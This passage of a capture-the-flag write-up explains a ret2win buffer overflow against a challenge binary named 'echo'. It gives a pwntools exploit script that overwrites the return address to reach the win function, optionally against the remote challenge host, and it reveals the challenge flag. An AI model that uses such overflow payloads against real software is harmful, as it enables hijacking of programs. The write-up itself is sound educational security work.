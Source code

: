```c
  return;
}
```

- Simply, we've to hijack control flow with **ret2win attack**, so we can start executing `win` function after `ret` main.
- Here's my exploit script for this challenge.

```python
#!/usr/bin/env python3
#filename: exploit.py

from pwn import *

context.binary = elf = ELF("./echo", checksec=0)
context.log_level = "debug"

# Prepare the payload.
win_addr = p64(elf.symbols['win'])
payload = b"A"*0x80 # --------------< Buff size.
payload += b"B"*0x8 # --------------< Old RBP.
payload += win_addr # --------------< Jump to win_addr.

# Send the payload.
is_remote = False # change to True if you want to run remotely.

if is_remote:
	io = remote("challenge.ctf.games", 31084)
else:
	io = elf.process()

io.sendline(payload)
io.interactive()
```

- Create a sample `flag.txt` file to run the exploit script locally. If it success, then we can run the exploit script remotely. Just change the `is_remote` variable to `True`.
- And we got the flag.

![Echo-02](/images/snyk-ctf_pwn1-02.png)

### Flag

{{< admonition type=question title="Click to show the flag" open=false >}}
  `flag{4f4293237e37d06d733772a087299f17}`
{{< /admonition >}}

## 2. Additional Information Needed

### Description

{{< admonition type=info title="Click to show the desc" open=false >}}
  Author: @Soups71
  